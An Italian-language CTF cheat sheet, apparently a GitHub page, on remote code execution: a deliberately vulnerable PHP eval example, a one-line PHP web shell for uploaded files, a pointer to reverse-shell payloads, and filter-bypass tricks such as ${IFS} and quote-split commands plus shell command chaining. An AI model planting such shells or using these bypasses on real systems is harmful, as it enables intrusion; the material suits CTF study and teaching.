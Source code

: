 # RCE
Vulnerabilità (critica) che permette di eseguire codice arbitrario su un dispositivo da remoto.
Un classico esempio di codice che porta a RCE, in PHP, è: 
```
<?php $code = $_GET['code'];
eval($code); ?>
```
Possiamo quindi eseguire del codice tramite il prametro 'code': 
```
http://host/page.php?code=phpinfo();
```
# REVERSE SHELL
Assumento che si possa anche caricare un file che venga poi eseguito è possibile inserire nel file il seguente payload:

(Vedi [https://www.revshells.com/](https://www.revshells.com/) per payload di reverse shell)

```
<?php echo shell_exec($_GET['cmd']); ?>
```
Che ci permette, una volta che ci siamo posizionati sul file che abbiamo caricato, di eseguire dei comandi arbitrari tramite il parametro ```?cmd=phpinfo()```
Nelle CTF può capitare che ,al posto di sanificare l'input, venga proposta una blacklist per cercare di evitare un certo tipo di attacco. Questo è generalmente sbagliato e ci sono vari modi per bypassare questi controlli. 

# BYPASS DELLO SPAZIO
Uno dei bypass più comuni da effettuare è quello del blocco di spazi nei comandi che si vogliono eseguire, generlamente ```${IFS} e $IFS``` ci permettono di rappresentare lo spazio nella maggior parte delle shell.
Tenete sempre conto del fatto che passare il payload nell'url può dare problemi per via dell'URL Encode(in certi casi permette di effettuare dei bypass) e che molte informazioni possono essere rappresentate in Base64
Come già detto cercate di capire il sistema che avete davanti e siate creativi, a volte basta un po' di creatività per ottenere la flag, per esempio con payload del tipo: 
```
w'h'o'am'i
wh''oami
```
# CONCATENARE COMANDI
Tecniche che permettono di concatenare più comandi (queste sono per RCE in sistemi Unix): 
```
; 
&& (AND)
|| (OR)
& (Background)
| (Pipe): Prende l'output del primo comando e lo usa come input del secondo
```
```
command1; command2   # Execute command1 and then command2
command1 && command2 # Execute command2 only if command1 succeeds
command1 || command2 # Execute command2 only if command1 fails
command1 & command2  # Execute command1 in the background
command1 | command2  # Pipe the output of command1 into command2
```
Inoltre ricordatevi che i commenti sono vostri amici, può esservi utile commentare quello che non vi serve in una determinata parte di codice.
